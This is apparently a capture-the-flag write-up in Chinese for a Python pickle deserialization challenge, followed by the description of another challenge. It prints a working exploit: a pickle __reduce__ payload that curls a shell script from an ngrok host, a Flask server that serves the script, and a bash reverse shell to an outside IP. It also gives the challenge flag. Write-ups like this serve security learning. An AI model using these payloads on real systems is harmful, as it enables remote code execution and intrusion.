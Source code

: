 * 可以看到他拿了你傳的檔案直接做了 pickle.load 直接想到了反序列化，還沒擋任何東西，寫個 python 傳上去就可以 RCE 了

#### exploit

* Hint 有說 reverse shell 彈不回來可以用 curl 但我過了 10 分鐘他還是卡在那邊 XD，所以我自己寫個 sh 讓他下載執行讓他彈回來 :D

##### Server

```python!
from flask import Flask, send_file

app = Flask(__name__)

@app.route('/download')
def download_shell():
    filename = 'shell.sh'
    return send_file('./' + filename, as_attachment=True)

if __name__ == '__main__':
    app.run(debug=True)
```

```python!
/bin/sh -i >& /dev/tcp/148.100.77.86/8888 0>&1
```

##### Exp

```python!
import pickle
import base64
import os

command = 'curl https://b33a-123-193-178-235.ngrok-free.app/download -o /tmp/shell.sh && chmod +x /tmp/shell.sh'

#command = 'bash /tmp/shell.sh'

class Exp:
    def __reduce__(self):
        return (__import__('subprocess').getoutput, (command,))


with open('payload.pickle', 'wb') as f:
    pickle.dump(Exp(), f)
```

![image](https://hackmd.io/_uploads/B1WaU8CW0.png)

> FLAG : THJCC{yumwy_RCe_qr0f!13_p1ckl3_Ou0b}

### FFAM(Find Flag Automaticaliiy Machine)

```bash!
http://23.146.248.36:10000/

This is a machine developed by Naup. Compared with FFAM, it can automatically dig out flags. But he doesn't have enough RAM... . You can try to buy some RAM!!

Warning:Please do not maliciously damage the chall.If you think your idea is correct but you can't succeed, please open a ticket and I will check the status of the chall.

Author:Naup堇姬
```
